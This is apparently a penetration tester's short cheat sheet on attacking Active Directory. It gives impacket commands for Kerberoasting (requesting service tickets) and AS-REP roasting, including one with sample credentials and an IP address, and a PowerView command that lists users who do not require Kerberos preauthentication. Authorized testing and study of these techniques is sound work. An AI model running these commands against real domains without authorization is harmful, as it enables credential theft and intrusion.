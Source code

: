 # Active Directory & Domain Controller

```
impacket-GetUserSPNs domain-name/domain-user:password -dc-ip x.x.x.x -request
```

```
impacket-GetUserSPNs xyz.com/alice:bubbles -dc-ip 192.168.111.155 -request
```

![[Pasted image 20230906222705.png]]

*Service Principal Name (SPN)*

*Ticket Granting Service (TGS)*

*Ticket Granting Ticket (TGT)*

### List vuln users using PowerView

```
Get-DomainUser -PreauthNotRequired -verbose
```

```
impacket-GetNPUsers $domain-name/ -dc-ip $ip -usersfile usernames.txt
```


